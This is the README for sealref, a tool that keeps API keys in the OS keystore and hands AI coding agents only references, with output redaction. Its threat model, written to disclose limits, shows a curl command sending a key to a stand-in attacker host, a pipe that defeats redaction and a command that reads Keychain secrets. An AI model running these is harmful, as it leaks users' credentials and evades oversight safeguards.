




# sealref

Give AI coding agents (Claude Code, Cursor, any MCP client) API keys and
secrets without pasting them into chat: the agent works with references like
`sealref://stripe/API_KEY`, and the key itself stays in your OS keystore (macOS Keychain, Linux Secret
Service, Windows Credential Manager).
sealref is a local CLI plus an MCP server for secrets.

## Why

When an agent needs an API token, the quickest thing to do is paste it into the
chat. From then on it is part of the transcript: saved in the agent's session
history, sent to the model provider with every later request, and kept in
whatever logs, traces and history are retained on either side.

The indirect routes avoid that, but they are tedious. You write the key into a
`.env` file (which the agent can still read back into the chat), export it in
the shell before starting the agent, copy it by hand into each command, or set
up a vault CLI and wire it into every command the agent runs.

With sealref the agent only ever holds a `sealref://` ref. You type the value
once into a local page, it goes into the OS keystore, and `sealref run` injects it
into the one command that needs it and scrubs it from that command's output.

## Quickstart (3 steps)

Requires Python 3.9+ on macOS, Linux or Windows (see [Platforms](#platforms));
the MCP server runs through `uv`.

1. Install:

   ```sh
   git clone https://github.com/anhermon/sealref ~/src/sealref
   ln -s ~/src/sealref/bin/sealref /usr/local/bin/sealref   # or add bin/ to PATH
   brew install uv                                          # for the MCP server
   ```

2. Register the MCP server with your agent (Claude Code shown; see
   [MCP setup](#mcp-setup-claude-code) for the `.mcp.json` form):

   ```sh
   claude mcp add sealref --scope user -- \
     uv run --directory ~/src/sealref --with "mcp==1.29.0" \
     python -m sealref.mcp_server
   ```

3. Ask your agent to use a secret. It calls `request_secret`, a local page opens
   for you to type the value, and the agent runs its command through sealref:

   ```sh
   sealref run --ref sealref://stripe/API_KEY -- sh -c 'curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"'
   ```

## FAQ

**How do I keep secrets out of Claude Code's context?**
Register the sealref MCP server and have the agent use `request_secret` and
`sealref run` instead of asking you to paste a key. The value goes from a
browser form on 127.0.0.1 into the Keychain, and the agent only receives
`sealref://group/KEY` refs. Output that echoes the key (raw, base64 or
URL-encoded, line by line) is replaced by `«redacted:group/KEY»`.

**Is there an MCP server for secrets that never shows the value to the model?**
Yes: `python -m sealref.mcp_server` exposes `list_groups`, `list_keys`,
`has_secret`, `request_secret` and `usage_hint`. None of them returns a value,
and there is no tool or CLI command that prints one.

**Does it work with Cursor or other MCP clients?**
The server is a standard stdio MCP server, so any client that can launch a
stdio command can use it with the same `command`/`args` as in the `.mcp.json` under
[MCP setup](#mcp-setup-claude-code). Only the Claude Code setup has been written up here; I have not tested
other clients.

**Can I use `.env` files or `export` instead?**
You can, but the agent can read a `.env` file back into the chat, and exported
variables are visible to everything it runs. sealref keeps the value in the
Keychain and puts it only into the environment of the one child process.

**What does it not protect against?**
An agent that is actively trying to get the value. See the limits below and the
[Threat model](#threat-model).

## Limits

Single user, no team sharing, audit log or rotation, and redaction is
best-effort and line-based. It guards against accidental leaks into
transcripts, not a hostile agent. An agent that can run shell commands as you
can read any secret it can name. On macOS you can store a secret with Keychain
approval (see [Keychain approval](#keychain-approval)) so every read raises a
dialog, and even then it can still get the value from a run you approve. **On
Linux and Windows there is no such gate**: any process running as you can read
the item while the keystore is unlocked.

Per platform:

| | macOS | Linux | Windows |
|---|---|---|---|
| Store | Keychain via `/usr/bin/security` (no dependencies) | Secret Service (GNOME Keyring, KeePassXC) or KWallet, via `keyring` | Credential Manager, via `keyring` |
| Per-read approval | yes (opt-in) | no | no |
| Value size | about 2900 bytes | none enforced | about 1280 characters (2560 bytes UTF-16); longer is refused before writing |
| `~/.vaultlet` 0700 / index 0600 | enforced | enforced | not enforced (no POSIX modes); the folder inherits your profile's ACL, which already excludes other users |
| Headless / no desktop session | n/a | needs an unlocked Secret Service on a D-Bus session; otherwise sealref refuses | n/a |
| Tested | real Keychain (throwaway file) in the suite | real gnome-keyring in Docker | **not run by the author**; CI job written, never executed |

Other platform notes: `sealref run` exits `128+N` when the child dies of
signal N (POSIX; Windows reports the child's own code); on Windows it resolves
the command through `PATHEXT` so `npm` finds `npm.cmd`; the `bin/` launchers
are POSIX shell scripts, and on Windows the pip-installed `sealref` and
`vaultlet` commands are the entry point. Child output is decoded with the
console's code page, so a non-ASCII secret printed by a child in a different
encoding may not be recognised for redaction. The local page launches your
browser with Python's `webbrowser` on all three systems.

## How sealref fixes it

The agent asks for a missing secret through an MCP tool, `request_secret`. A
local page opens in your browser, you type the value there, and it is stored in
the macOS Keychain; the agent gets back only the reference
`sealref://stripe/API_KEY`. To use the key, the agent runs its command through
`sealref run`, which puts the value into that one process's environment and
replaces the raw value and its base64 / URL-encoded forms in the child's
line-buffered stdout/stderr with `«redacted:stripe/API_KEY»` (see
[Threat model](#threat-model) for limits).

```
                 the chat contains           command output that echoes the key shows
pasting the key  sk-test-EXAMPLE             sk-test-EXAMPLE
with sealref     sealref://stripe/API_KEY    «redacted:stripe/API_KEY»
```

This guards against a secret landing in a transcript by accident. It does not
stop an agent that is trying to get the value; see [Threat model](#threat-model).

## Screenshots

Captured from a real run of the MCP server, CLI and local page, with dummy
values such as `sk-test-EXAMPLE`. Captured on Linux with a stand-in `security`
helper (no macOS Keychain on the capture box). MCP/CLI outputs are real;
panels 2–3 are styled HTML frames, not raw Terminal.app.

**1. The agent calls `request_secret`; you type the value into a local page.**
The banner shows the reason the agent gave. The page is served on 127.0.0.1,
and that server stops once the value is saved.



**2. What the agent gets back over MCP: names and refs, never the value.**



**3. Using the key: `sealref run` injects it into the command and scrubs the output.**
httpbin.org echoes the request headers back, so the real key was sent and the
output still shows only the placeholder.



**4. Managing secrets with `sealref ui`.** Values are masked; "Copy ref" copies
the reference, not the value.



## Install

Requires Python 3.9+ (tested on 3.9 and 3.12). On macOS the CLI uses only the
standard library. The MCP server needs `mcp` 1.x, run through `uv` so nothing is
installed into your environment.

```sh
git clone https://github.com/anhermon/sealref ~/src/sealref
ln -s ~/src/sealref/bin/sealref /usr/local/bin/sealref   # POSIX; or add bin/ to PATH
brew install uv                                              # for the MCP server

# or, on any OS, as real commands (this is the way on Windows):
pip install ~/src/sealref                    # macOS: no extra dependencies
pip install '~/src/sealref[keyring]'         # Linux and Windows
```

The `bin/` launchers run `python3 -I`, which ignores user-site packages and
`PYTHONPATH`: on Linux install `keyring` into the python3 they find (a venv on
`PATH`, `pipx`, or your distro's `python3-keyring`), not with `pip install --user`.

On Linux the keystore must be unlocked in a D-Bus session (a desktop login, or
`dbus-run-session -- sh -c 'echo PASSWORD | gnome-keyring-daemon --unlock
--components=secrets; ...'` on a headless box). sealref uses only OS keystores:
it refuses `keyrings.alt` plaintext or encrypted-file keyrings and keyring's
`fail`/`null` backends, with an error such as `no secure OS keyring available`,
and never falls back to them.

## CLI basics

```sh
sealref ui                       # open the local page, create a group, add keys
sealref groups
sealref keys stripe              # key names and refs, no values
sealref run --group stripe -- sh -c 'echo "key length: ${#API_KEY}"'
```

Then register the MCP server (next section) so your agent can list refs and
call `request_secret` instead of asking you to paste a key.

## MCP setup (Claude Code)

```sh
claude mcp add sealref --scope user -- \
  uv run --directory /absolute/path/to/sealref --with "mcp==1.29.0" \
  python -m sealref.mcp_server
```

Equivalent `.mcp.json`:

```json
{
  "mcpServers": {
    "sealref": {
      "command": "uv",
      "args": ["run", "--directory", "/absolute/path/to/sealref",
               "--with", "mcp==1.29.0", "python", "-m", "sealref.mcp_server"]
    }
  }
}
```

`mcp` is pinned to 1.x because 2.0 removed `mcp.server.fastmcp`, which the
server uses. Tools: `list_groups`, `list_keys`, `has_secret`,
`request_secret`, `usage_hint`. All return names or refs, never values.

## The agent workflow

1. The agent calls `list_keys` / `has_secret` over MCP and sees only refs.
2. If a secret is missing, it calls `request_secret(group, key, reason)`. A
   local page opens in your browser; you type the value there. The tool
   returns the ref, not the value. Nothing is pasted into chat.
3. To use it, the agent runs the real command through sealref:

   ```sh
   sealref run --ref sealref://stripe/API_KEY -- sh -c 'curl -s https://api.stripe.com/v1/balance -u "$API_KEY:"'
   sealref run --group stripe -- ./deploy.sh
   ```

   The value goes into the child's environment. The child's stderr is merged
   into its stdout, and that combined output comes back on sealref's stdout.
   Redaction is line-based: in each line, every injected value, and its base64
   and URL-encoded forms, is replaced by `«redacted:stripe/API_KEY»`. See
   [Threat model](#threat-model) for what that does not catch.

There is no MCP tool and no CLI command that prints a value. That is the
design; see [Threat model](#threat-model) for what it does and does not buy you.

## CLI

```
sealref groups
sealref keys <group>
sealref ui [--port N]
sealref request <group> <key> [--reason TEXT]
sealref run [--group G]... [--ref sealref://g/k[=ENVNAME]]... -- <cmd> [args...]
```

`--group G` injects every key in G under its own name. `--ref` injects one key,
optionally under another env var name. `run` exits with the child's exit code.
The child's stderr is merged into its stdout; both come out, redacted, on
`run`'s stdout.
`run` does not expand `$VARS` itself; wrap in `sh -c` if the command line needs
them. Group names match `[A-Za-z0-9_.-]+`; key names must be valid env var names.

## Platforms

Storage goes through a small backend interface (`sealref/backends.py`).
Names stay in `~/.vaultlet/index.json` on every OS; values live in the
keystore as service `vaultlet:<group>`, account `<key>` on all of them. Pick
with `SEALREF_BACKEND=macos|keyring` (default `macos` on darwin, else
`keyring`). `SEALREF_KEYCHAIN=<file>` points the macOS backend at one keychain
file instead of your default keychain (the test suite uses this).

The keyring backend resolves `keyring.get_keyring()` (looking inside a
`ChainerBackend`) and accepts only SecretService/libsecret, KWallet, Windows
`WinVaultKeyring` and macOS; it talks to that backend directly, so an
installed plaintext keyring is never used. There is deliberately no
encrypted-file fallback: doing it safely needs an AEAD and a KDF (not in the
standard library) and a passphrase prompt that `sealref run` cannot do
unattended. Details and limits per OS are in [Limits](#limits).

## How it works

Values live in the Keychain (macOS shown; see [Platforms](#platforms)): service `vaultlet:<group>`, account `<key>`. An
index of group and key names (no values) is kept in `~/.vaultlet/index.json`,
mode 0600. Writes pass the value to `security -i` on stdin, so it does not
appear in `ps`. The management page binds to 127.0.0.1 only, rejects requests
with a foreign `Host` or `Origin`, refuses to be framed, and its API never
returns a value. Every API call needs a random token that is created at each
launch and carried in the link sealref opens (`#t=...`), so other programs and
other users on the Mac cannot use the API. Only `sealref run` reads values back.

### Keychain approval

When you save a secret, tick **Ask me in a macOS Keychain dialog every time
this secret is read** to store it with an empty trusted-app list. Every read
then raises a macOS dialog: sealref's own `sealref run`, and also an agent or
any other process that calls `security find-generic-password` directly.
Nothing can read it silently. The cost is a dialog on every `sealref run`
(`run` waits up to 120 s for it).

- The dialog names `security`, not the command. Because sealref and an
  attacker both read through `security`, you cannot tell their reads apart.
  Approve only when you just started a run that needs this key.
- **Do not click "Always Allow".** It adds `/usr/bin/security` to the item's
  trusted apps, and from then on anything running as you can read the item
  silently.
- An approved read still hands the value to the command the agent chose (see
  [Threat model](#threat-model)).
- Existing secrets keep their current setting. To protect one, save it again
  from the page with the box ticked.

## Threat model

sealref protects against a secret *accidentally* landing in an agent
transcript, shell history, or log. It is not a sandbox against an agent that
wants the value.

- Anything running as your user can read the Keychain item with
  `security find-generic-password -w`, silently, unless the secret was saved
  with [Keychain approval](#keychain-approval). With approval, each read
  raises a macOS dialog. Keychain ACLs cannot restrict access to sealref
  alone: sealref reads through `/usr/bin/security`, so an agent using the
  same binary looks identical.
- The agent chooses the command that `sealref run` executes. A command such as
  `sh -c 'echo $API_KEY | rev'` defeats redaction, and
  `curl https://attacker.example -d "$API_KEY"` sends the value off-machine.
  Review what the agent runs, or gate `sealref run` behind your agent's
  permission prompts.
- The child process can read its own environment, and so can other processes
  running as you while it runs. `ps eww <pid>` showed an injected test value
  for a Homebrew `python3` child; Apple platform binaries hide their
  environment. Keychain approval does not cover this window.
- `--group` injects every key in the group, and the child also inherits your
  whole environment. Prefer `--ref` for only the keys a command needs.
- Redaction is line-based. A value split across lines can pass through.
  (Output without a final newline, and very long lines, are still redacted.)
- Redaction catches the raw value; its URL-quoted form; lower- and upper-case
  hex; and its base64 and URL-safe base64, including when they are encoded
  together with other text, such as an HTTP Basic `user:key` credential.
  Anything else is not caught: reversed, partial, case-changed, hashed, or
  otherwise transformed values.
- Values shorter than 4 characters are not redacted (a warning is printed).
- Values cannot contain control characters (newline, tab, ...) and are
  limited to about 2900 bytes. Longer values would not stay inside one
  `security -i` command line.
- `request_secret` shows the agent-supplied `reason` text on the page. It is
  escaped, but a misleading reason can still talk you into entering a secret
  you should not. Read it. The agent picks the group and key too, so it can
  ask for credentials the task does not need.
- `has_secret` and `request_secret` trust the name index, not the Keychain.
  A key that was deleted by hand still counts as present.
- If your browser offers to save the value in its password manager, decline.
- The access token for the local page is printed to stderr (which an MCP
  client may log) and is briefly visible in the browser-launcher's argv.
- The MCP server's `mcp==1.29.0` pin covers only that package. Its
  dependencies resolve at launch and are not hash-locked.
- Linux and Windows backends are only as strong as the OS keystore: an
  unlocked Secret Service or Credential Manager is readable by any process as
  you, and there is no per-read approval. Windows support has not been run.

See [SECURITY-REVIEW.md](SECURITY-REVIEW.md) for the review notes.

## How it differs, and when not to use it

- **envchain** stores secrets in the Keychain and injects them into a command's
  environment. That is sealref's `run`, minus refs, the MCP server, the entry
  page and output redaction. If you only want Keychain-to-env, use envchain.
- **1Password CLI (`op run`)** resolves `op://` references into a child's
  environment and can mask secrets in output. This is the closest design, and
  it is more mature, cross-platform, and supports teams, biometric unlock and
  rotation. If you already use 1Password, use it. sealref's difference is the
  agent-facing piece: MCP tools and a browser form so an agent can ask for a
  secret without seeing it.
- **Infisical, Doppler, HashiCorp Vault**: hosted or self-hosted secret
  managers with access control, audit logs, rotation and team sharing. Use these
  for anything shared or production. sealref is a single-user local store.
- **sops / age**: encrypted secret files you commit alongside code. A different
  problem (secrets in version control, for people and CI), and the decrypted
  value still reaches whatever reads the file.
- **direnv**: loads environment variables per directory. It has no secret
  storage and no redaction; the values end up in your shell.
- **Agent-specific tools**: several MCP servers and agent plugins expose secret
  managers to agents. I have not surveyed them exhaustively. Any that return
  values to the model put the value in the transcript, which is the case
  sealref exists to avoid.

Do not use sealref if you need team sharing, audit logging,
rotation, a hardened boundary against a hostile agent, or production secrets.

## Renamed from vaultlet (compatibility)

sealref was called vaultlet. Existing setups keep working, with one output change:

- The `vaultlet` command still works (`bin/vaultlet`); like `sealref`, it now prints `sealref://` refs.
- Refs are accepted in both schemes everywhere: `sealref://g/k` and `vaultlet://g/k`.
- Refs are *printed* as `sealref://`. If a script of yours still expects
  `vaultlet://` output, set `SEALREF_REF_SCHEME=vaultlet` or use
  `sealref --ref-scheme vaultlet keys <group>`.
- Storage is unchanged: Keychain service `vaultlet:<group>` and `~/.vaultlet/`.
  No migration is needed or performed.
- MCP: tool names are unchanged. `python -m vaultlet.mcp_server` keeps working
  and reports server name `vaultlet`; `python -m sealref.mcp_server` reports
  `sealref`. Register under whichever name you like.

## Development

```sh
python3 -m unittest -v test_sealref
```

On macOS the suite also does a real round trip (set, get, ref, `run` with
redaction, delete, approval ACL via `security dump-keychain -a`) against a
**throwaway keychain file** it creates in a temp directory. That file is never
added to the keychain search list and your login keychain is not touched.

Linux end to end, against a real Secret Service in Docker:

```sh
docker build -f tests/linux/Dockerfile -t sealref-linux . && docker run --rm sealref-linux
```

## License

MIT. See [LICENSE](LICENSE).
